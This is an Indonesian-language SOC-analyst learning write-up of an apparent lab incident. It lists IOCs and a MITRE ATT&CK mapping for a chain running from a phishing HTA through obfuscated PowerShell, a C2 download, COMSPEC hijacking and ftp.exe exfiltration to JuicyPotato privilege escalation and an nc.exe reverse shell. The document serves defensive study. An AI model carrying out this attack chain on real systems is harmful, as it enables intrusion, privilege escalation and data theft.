| PowerShell Cmdlet | `Invoke-WebRequest` | Digunakan untuk download malware dari C2 |
| IP C2 | `192.168.1.11` | IP Command & Control attacker |
| Port Download | `6969` | Port C2 untuk download `supply.exe` |
| Port Exfiltration | `8080` | Port yang digunakan `ftp.exe` untuk komunikasi ke C2 |
| Port Reverse Shell | `9898` | Port target reverse shell via `nc.exe` |
| File Malware | `C:\Windows\Temp\supply.exe` | Malware utama yang didownload ke direktori temp |
| Environment Variable | `COMSPEC=C:\windows\temp\supply.exe` | Env var yang dihijack untuk execution hijacking |
| LOLBIN | `ftp.exe` | Windows binary yang disalahgunakan untuk C2 communication & exfiltration |
| URL Privesc Tool | `https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe` | Tool privilege escalation yang didownload attacker |
| DLL Indicator | `msvcm90.dll` | Fingerprint PyInstaller — indikator malware berbasis Python 2.x |

---

## 🗺️ MITRE ATT&CK Mapping

| Tactic | Technique | ID | Keterangan |
|--------|-----------|----|------------|
| Initial Access | Spearphishing Attachment | T1566.001 | `updater.hta` kemungkinan dikirim sebagai attachment email |
| Initial Access | Spearphishing Link | T1566.002 | DNS query ke Outlook (status 9003) mengarah ke link phishing |
| Execution | Mshta | T1218.005 | `updater.hta` dieksekusi via `mshta.exe`, bukan browser |
| Execution | PowerShell | T1059.001 | Malicious PS script dijalankan dari HTA |
| Defense Evasion | Command Obfuscation | T1027.010 | Double-encoded payload: Base64 + Gzip |
| Command & Control | Ingress Tool Transfer | T1105 | `supply.exe` didownload dari `192.168.1.11:6969` via IWR |
| Persistence / Execution | Hijack Execution Flow | T1574 | COMSPEC env var diarahkan ke `supply.exe` |
| Discovery | System Network Configuration Discovery | T1016 | `ipconfig` |
| Discovery | System Owner/User Discovery | T1033 | `whoami` |
| Discovery | Permission Groups Discovery | T1069 | `whoami /priv` — mengecek SeImpersonatePrivilege |
| Defense Evasion | System Binary Proxy Execution | T1218 | `ftp.exe` sebagai LOLBIN |
| Exfiltration | Exfiltration Over Alternative Protocol | T1048 | Data exfiltration via `ftp.exe` ke C2:8080 |
| Privilege Escalation | Exploitation for Privilege Escalation | T1068 | JuicyPotato via COM token impersonation |
| Privilege Escalation | Token Impersonation/Theft | T1134.001 | JuicyPotato mengeksploitasi SeImpersonatePrivilege |
| Command & Control | Application Layer Protocol | T1071 | Reverse shell via `nc.exe` ke C2:9898 |

---

## 📋 Summary — Attacker Behavior & Todo

### Attacker Behavior

Attack dimulai dari **spearphishing** — korban kemungkinan menerima email berisi `updater.hta` sebagai attachment (T1566.001), atau link yang mengarahkan ke file tersebut (T1566.002). Indikasi ini terlihat dari DNS query ke Outlook (status `9003` — DNS_INFO_NO_RECORDS) dan query ke `wpad` yang muncul tepat sebelum HTA dieksekusi.

Setelah korban membuka `updater.hta`, yang menjalankan file ini bukan browser — melainkan `mshta.exe` (T1218.005). Dari HTA, PowerShell dijalankan dengan payload yang di-encode dua kali (Base64 + Gzip) untuk evade detection (T1027.010). Setelah dua tahap decoding, `Invoke-WebRequest` dieksekusi untuk mengunduh `supply.exe` dari `192.168.1.11:6969` ke `C:\Windows\Temp` (T1105).

`supply.exe` kemudian mengubah environment variable `COMSPEC` ke path-nya sendiri (T1574) — setiap proses yang invoke command interpreter via env var ini akan menjalankan malware, bukan `cmd.exe`.

Fase discovery dimulai: `ipconfig`, `whoami`, dan `whoami /priv` dieksekusi secara paralel (T1016, T1033, T1069) untuk memetakan network dan privilege. Dari sini attacker mengetahui bahwa user memiliki `SeImpersonatePrivilege`, dan langsung download `JuicyPotato.exe` dari GitHub untuk privilege escalation via COM token impersonation (T1068, T1134.001).

Selama proses berlangsung, `ftp.exe` (LOLBIN) digunakan 4 kali untuk komunikasi ke C2:8080 — kemungkinan untuk exfiltrate data (T1048). Sebagai penutup, `nc.exe` di-drop ke sistem dan digunakan untuk membangun reverse shell ke C2 di port `9898` — attacker mendapatkan shell interaktif dengan elevated privilege.

**Attack chain ringkas:**
```
Phishing email → updater.hta (mshta.exe) → PowerShell obfuscated
→ supply.exe (download via IWR) → COMSPEC hijack → Discovery
→ ftp.exe exfiltration → JuicyPotato (privesc) → nc.exe reverse shell
```

### Todo / Follow-up

- [ ] Pelajari lebih dalam **JuicyPotato** — cara kerjanya mengeksploitasi COM token impersonation dan kenapa butuh SeImpersonatePrivilege
- [ ] Pelajari **PyInstaller forensics** — cara identifikasi Python malware dari DLL artifacts (`msvcm90.dll`, `msvcr90.dll`, `python27.dll`)
- [ ] Eksplorasi **WPAD poisoning** — apakah query `wpad` di sini merupakan bagian dari serangan atau sekadar network artifact
- [ ] Pelajari **LOLBAS Project** lebih lengkap — daftar binary Windows yang bisa disalahgunakan untuk eksekusi, download, dan exfiltration
- [ ] Coba reproduce obfuscation technique: Base64 + Gzip double encoding di PowerShell dan cara decode-nya

---

## 📚 References

- [Sysmon Events Reference — Microsoft](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
- [MITRE ATT&CK — T1218.005 Mshta](https://attack.mitre.org/techniques/T1218/005/)
- [MITRE ATT&CK — T1566 Phishing](https://attack.mitre.org/techniques/T1566/)
- [MITRE ATT&CK — T1027 Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027/)
- [MITRE ATT&CK — T1574 Hijack Execution Flow](https://attack.mitre.org/techniques/T1574/)
- [MITRE ATT&CK — T1134 Access Token Manipulation](https://attack.mitre.org/techniques/T1134/)
- [LOLBAS Project — ftp.exe](https://lolbas-project.github.io/lolbas/Binaries/Ftp/)
- [JuicyPotato — GitHub](https://github.com/ohpe/juicy-potato)

---

*Writeup ini dibuat sebagai bagian dari perjalanan belajar Blue Team / SOC Analyst.*
